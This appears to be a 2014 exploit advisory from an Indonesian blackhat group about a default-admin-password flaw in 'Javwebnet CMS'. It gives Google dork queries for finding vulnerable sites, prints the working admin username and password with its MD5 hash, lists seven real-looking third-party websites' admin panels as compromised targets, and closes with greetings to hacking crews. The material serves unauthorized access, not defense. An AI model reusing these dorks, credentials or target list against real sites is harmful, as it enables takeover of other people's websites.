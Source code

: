 # Javwebnet-CMS-Default-Password-Vulnerability

##### Google Dork
* `intext:"web design by javwebnet"`
* `inurl:"admin/chace.php"`
* `intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"`
* Date                 : 05/01/2014
* Exploit Author       : BarrabravaZ
* Vendor Homepage      : http://www.javwebnet.com/
* Version              : 1.0
* Tested on            : Windows, Linux
* Surabaya Blackhat "Learn to be Better"

## Author will be not responsible for any damage
* Issue: Default Password Admin
* Risk level: High

>The remote attacker has the possibility to manage the website.
>The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/admin/

* Username : `admin`
* Password : `17t17n25a` (md5: `3445c774b86384665a5315b30f8a6735`)

## Cro0t
> http://www.nomorsejagad.com/admin
> http://www.decalartworks.com/admin
> http://www.perdanajakarta.com/admin
> http://www.bangkitperdana.com/admin
> http://www.kecapborobudur.com/admin
> http://www.maulidaperdana.com/admin
> http://www.istanabajutidur.com/admin

## Thx To

* Meninbox wong ganteng unyu2 :D
* Katon --> Was here
* Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
* Bagfreakz aKa paijo painem hahaha
* Gandrunx --> master koding ,ajarin doong kakak..
* Ch0c0 terhumanisasi
* MyWisdom kakak paling cakep :*
* Array --> Mboh wong iki geje nick'e array wkwkwk
* Surabayag3tar guruku ('/\')
* Mr. DC bang jali :D
* Dem1t,Bejat,Morgue,OmJin..
* Siti Jubaidah,X'inject,R1O,Angel DOt ID...
* Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...

## Developer
* SurabayaBlackhat
* Madleets
* IFC
* Hiddenc0de
* devilzc0de